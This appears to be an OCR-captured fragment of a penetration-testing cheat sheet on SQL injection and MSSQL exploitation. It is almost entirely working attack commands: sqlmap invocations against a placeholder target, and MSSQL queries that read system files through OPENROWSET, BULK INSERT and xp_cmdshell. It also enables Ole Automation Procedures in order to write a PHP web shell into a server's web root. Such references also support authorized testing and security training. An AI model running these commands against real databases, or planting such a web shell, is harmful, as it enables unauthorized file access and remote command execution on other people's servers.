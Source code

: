     ```bash
    sqlmap -u "http[:]//www.target.com/vuln.php?id=1" --random-agent
    ```
*   **Provide user credentials for HTTP protocol authentication:**

    ```bash
    python sqlmap.py -u "http[:]//www.target.com/vuln.php?id=1" --auth-type [Basic] --auth-cred "[testuser:testpass]"
    ```

### Other Techniques

#### Read Local Files

*   By default, MSSQL allows file read on any file in the operating system to which the account has read access.

    ```c
    SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
    ```

    ```c
    BULK INSERT my_table FROM 'C:\path\to\file.txt' WITH (FIELDTERMINATOR = ',', ROWTERMINATOR = '\n');
    ```

    ```c
    EXEC xp_cmdshell 'type C:\path\to\file.txt';
    ```

#### Write Local Files

*   To write files using MSSQL, we need to enable `Ole Automation Procedures`, which requires admin privileges, and then execute some stored procedures to create the file:

    ```c
    1> sp_configure 'show advanced options', 1
    2> GO
    3> RECONFIGURE
    4> GO
    5> sp_configure 'Ole Automation Procedures', 1
    6> GO
    7> RECONFIGURE
    8> GO
    ```

    ```c
    1> DECLARE @OLE INT
    2> DECLARE @FileID INT
    3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
    4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
    5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
    6> EXECUTE sp_OADestroy @FileID
    7> EXECUTE sp_OADestroy @OLE
    8> GO
    ```
